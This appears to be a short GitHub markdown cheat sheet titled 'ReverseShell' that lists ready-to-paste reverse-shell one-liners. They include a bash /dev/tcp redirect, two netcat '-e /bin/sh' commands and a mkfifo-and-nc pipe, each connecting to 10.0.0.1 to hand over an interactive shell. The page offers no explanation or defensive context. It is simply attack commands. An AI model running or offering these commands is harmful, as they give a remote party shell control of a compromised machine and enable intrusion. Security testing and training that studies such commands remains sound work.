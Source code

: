 # ReverseShell

## Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## netcat

```bash
nc -e /bin/sh 10.0.0.1 1234
nc.traditional -e /bin/sh 10.0.0.1 1234
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
